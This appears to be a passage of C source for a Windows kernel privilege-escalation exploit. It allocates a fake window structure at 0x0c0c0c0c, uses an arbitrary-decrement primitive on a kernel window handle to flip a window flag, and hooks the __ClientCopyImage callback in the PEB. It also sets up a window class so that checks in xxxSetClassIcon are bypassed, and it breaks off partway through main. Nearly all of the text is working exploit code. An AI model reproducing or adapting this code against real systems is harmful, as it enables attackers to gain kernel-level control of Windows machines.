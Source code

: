}

void init()
{
    DWORD prot;

    LoadLibraryA("user32.dll");
    CreateSecondWindow();

    void *lpvBase = VirtualAlloc(
        (void *)0x0c0c0c0c,       // System selects address
        2048,                     // Size of allocation
        MEM_RESERVE | MEM_COMMIT, // Allocate reserved pages
        PAGE_READWRITE);          // Protection = no access

    /*
    for safe exit  : i used trick like  Browser Fake vTable :
    allocate 0x0c0c0c0c address and  fill tagWND with 0x0c0c0c0c
    so every dereference  will loop in 0x0c0c0c0c

    */
    memset(lpvBase, '\x0c', 2048);

    memset(originalCLS, 0, 0x5c + 2);
    memset(originalCLS, '\x0c', 0x5c);

    /*
   +0x014 bForceMenuDraw   : Pos 15, 1 Bit
   +0x014 bDialogWindow    : Pos 16, 1 Bit
   +0x014 bHasCreatestructName : Pos 17, 1 Bit
   +0x014 bServerSideWindowProc : Pos 18, 1 Bit
   +0x014 bAnsiWindowProc  : Pos 19, 1 Bit
   */

    kernelHandle = GetKernelHandle(Secondhwnd[0]);
    ArbDecByOne((DWORD)kernelHandle + 0x14); //

    __ClientCopyImageAddress = Get__ClientCopyImageAddressInPEB();
    printf("address of __ClientCopyImage is %x \r\n", __ClientCopyImageAddress);

    if (!VirtualProtect(__ClientCopyImageAddress, sizeof(PVOID), PAGE_EXECUTE_READWRITE, &prot))
    {
        return;
    }
    g_originalCCI = (pUser32_ClientCopyImage)InterlockedExchangePointer(__ClientCopyImageAddress, &hookCCI);
}
int main()
{
    WNDCLASSEX wc;
    int x;
    MSG Msg;

    // Step 1: Registering the Window Class
    wc.cbSize = sizeof(WNDCLASSEX);
    wc.style = 0;
    wc.lpfnWndProc = WndProc;
    wc.cbClsExtra = 0;
    wc.cbWndExtra = 0;
    wc.hInstance = NULL;
    wc.hIcon = NULL;   // bypass  check  inside xxxSetClassIcon to lead  execution path to callback
    wc.hCursor = NULL; // bypass  check  inside xxxSetClassIcon to lead  execution path to callback
    wc.hbrBackground = (HBRUSH)(COLOR_WINDOW + 1);
    wc.lpszMenuName = NULL;
    wc.lpszClassName = g_szClassName;
    wc.hIconSm = NULL; // bypass  "if" inside xxxSetClassIcon to lead  execution  path to callback

    init();
